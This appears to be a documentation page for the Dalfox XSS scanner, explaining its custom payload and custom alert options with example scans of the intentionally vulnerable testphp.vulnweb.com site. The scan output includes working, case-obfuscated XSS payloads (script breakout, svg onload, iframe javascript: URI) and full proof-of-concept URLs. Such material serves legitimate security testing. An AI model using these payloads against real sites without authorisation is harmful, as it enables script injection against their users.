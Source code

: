 ```yaml
---
title: Custom payload and Custom alert
permalink: /docs/custom-payload/
---
```


## Custom payload
```
$ dalfox url --custom-payload payload-list.txt
```

## Custom alert 
### Options
* `--custom-alert-value` = e.g (`XSS` / `1` / `document.location` )
* `--custom-alert-type`= e.g (`str` / `none`)

none or empty: write only alert-value (e.g --custom-alert-value=130 / --custom-alert-value=location.href)
str: `"PAYLOAD"` / `'PAYLOAD'`

### Case of study
default (no option)
```
$ dalfox url http://testphp.vulnweb.com/listproducts.php\?artist\=123
...snip...
[V] Triggered XSS Payload (found DOM Object): cat=</ScriPt><sCripT class=dalfox>alert(1)</sCriPt>
    48 line:  yntax to use near '=</ScriPt><sCripT class=dalfox>alert(1)</sCriPt>' at line 1
[POC][V][GET] http://testphp.vulnweb.com/listproducts.php?artist=123&cat=%3C%2FScriPt%3E%3CsCripT+class%3Ddalfox%3Ealert%281%29%3C%2FsCriPt%3E
```

used options - only value
```
$ dalfox url http://testphp.vulnweb.com/listproducts.php\?artist\=123 --custom-alert-value 1337
...snip...
[V] Triggered XSS Payload (found DOM Object): cat='><sVg/onload=alert(1337) class=dalfox>
    48 line:  syntax to use near ''><sVg/onload=alert(1337) class=dalfox>' at line 1
[POC][V][GET] http://testphp.vulnweb.com/listproducts.php?artist=123&cat=%27%3E%3CsVg%2Fonload%3Dalert%281337%29+class%3Ddalfox%3E
```

used options - with type=str
```
$ dalfox url http://testphp.vulnweb.com/listproducts.php\?artist\=123 --custom-alert-value 1337 --custom-alert-type str
...snip...
[V] Triggered XSS Payload (found DOM Object): cat=<svG/onload=confirm("1337") class=dalfox>
    48 line:  yntax to use near '=<svG/onload=confirm("1337") class=dalfox>' at line 1
[POC][V][GET] http://testphp.vulnweb.com/listproducts.php?artist=123&cat=%3CsvG%2Fonload%3Dconfirm%28%221337%22%29+class%3Ddalfox%3E
```

used options - with type=none,str
```
$ dalfox url http://testphp.vulnweb.com/listproducts.php\?artist\=123 --custom-alert-value 1337 --custom-alert-type str,int
...snip...
[V] Triggered XSS Payload (found DOM Object): cat="><iFrAme/src=jaVascRipt:alert('1337') class=dalfox></iFramE>
    48 line:  syntax to use near '"><iFrAme/src=jaVascRipt:alert('1337') class=dalfox></iFramE
[POC][V][GET] http://testphp.vulnweb.com/listproducts.php?artist=123&cat=%22%3E%3CiFrAme%2Fsrc%3DjaVascRipt%3Aalert%28%271337%27%29+class%3Ddalfox%3E%3C%2FiFramE%3E
```
